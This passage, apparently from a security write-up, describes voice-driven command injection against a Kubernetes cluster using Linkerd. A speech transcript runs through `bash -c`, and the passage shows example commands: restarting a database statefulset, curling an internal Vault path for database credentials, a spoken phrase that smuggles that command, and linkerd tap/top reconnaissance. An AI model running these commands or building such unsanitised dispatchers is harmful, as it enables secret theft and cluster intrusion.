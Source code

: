 kubectl rollout restart statefulset/postgres; curl [http://api/health](http://api/health)

````

Dispatcher Execution:
```bash
bash -c "$TRANSCRIPT"
````

Result:

* The voice-triggered transcript not only redeploys a stateful database but also probes another pod (`api`) inside the mesh.

---

## 🔐 4.2 The Role of Linkerd in Voice-Coupled Exploits

### Mesh Behavior:

* Automatically injects sidecars into whisper, dispatcher, and API pods.
* Performs mutual TLS, but:

  * Does **not parse or validate internal payload content**
  * Treats voice-originated HTTP calls as **legitimate service-to-service traffic**

### Attack Vector:

> Use the transcript to **invoke HTTP calls across namespaces**, issue internal API mutations, or extract secrets.

Example:

```
curl http://vault.svc.cluster.local:8200/v1/secret/db-creds
```

This can be embedded in a voice phrase like:

> “Test credentials semi-colon curl vault dot service”

---

## 🚪 4.3 Exploiting Tap & Top: Mesh-Level Recon via Voice

### Exploitable Commands via Transcript

| Voice Input                       | Transcript Payload                   | Effect                      |
| --------------------------------- | ------------------------------------ | --------------------------- |
| “Inspect traffic to the auth pod” | `linkerd tap deploy/auth`            | Real-time traffic dump      |
| “Get metrics for the frontend”    | `linkerd top deploy/frontend`        | Shows load, latency, volume |
| “Ping mesh targets”               | `curl` across internal service names | Liveness testing via voice  |

> 🎯 These escalate simple audio to **network intelligence gathering** and **pivot-point identification**.

---